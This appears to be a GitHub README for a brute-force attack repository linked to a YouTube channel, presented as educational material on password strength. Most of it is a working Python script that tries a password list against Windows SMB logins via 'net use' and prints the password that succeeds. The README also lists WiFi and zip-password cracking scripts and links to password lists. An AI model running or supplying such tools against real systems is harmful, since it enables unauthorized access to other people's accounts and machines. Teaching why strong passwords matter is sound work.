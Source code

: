 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanx](https://www.youtube.com/@peymanx) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Content List](#content-list)
- [Resources](#resources)
- [License](#license)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.

## Preview
![login](https://github.com/user-attachments/assets/075a2c88-b7e9-41a7-8ee4-7d8e8392d867)

## Sample Code

```python
import os
from tqdm import tqdm
from colorama import Fore, Style, init

# Initialize colorama
init()
os.system('title @peymanx Windows Login Password Brute-force attack')

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0

def read_passwords(file_path):
    with open(file_path, 'r') as file:
        passwords = file.readlines()
    return [password.strip() for password in passwords]

def main():
    ip = '127.0.0.1'
    username = 'peymanx'
    password_file = './passwords/common.txt'

    passwords = read_passwords(password_file)
    total_passwords = len(passwords)

    max_password_length = max(len(password) for password in passwords)
    with tqdm(total=total_passwords, desc="Trying passwords", unit="password") as pbar:
        for password in passwords:
            padded_password = password.ljust(max_password_length)
            pbar.set_description(f"{Fore.YELLOW}Trying password: {padded_password}{Style.RESET_ALL}")
            if connect_to_smb(ip, username, password):
                print(f'\n{Fore.GREEN}{"*"*70}')
                print(f'{Fore.GREEN}Successfully connected!')  # Blinking text
                print(f'{Fore.GREEN}Password: \'\033[5m{password}\033[0m{Fore.GREEN}\'')  # Blinking text
                print(f'{Fore.GREEN}{"*"*70}{Style.RESET_ALL}\n')
                break
            pbar.update(1)
        else:
            print(f'\n{Fore.RED}Password not found{Style.RESET_ALL}')

if __name__ == '__main__':
    main()
```

## Content List

- **passwords**
  - More password samples added (Jan 17, 2025)
- **login_hack.py**
  - Windows login hack 
- **wifi_hack.py**
  - WiFi hack 
- **zip_hack.py**
  - Compressed file password hack 

## Resources

- [SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments](https://github.com/danielmiessler/SecLists)
- [Persian Words Jadi :)](https://github.com/jadijadi/persianwords)
- [Iranian-Password-list](https://github.com/Dih4v/Iranian-Password-list)
- [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
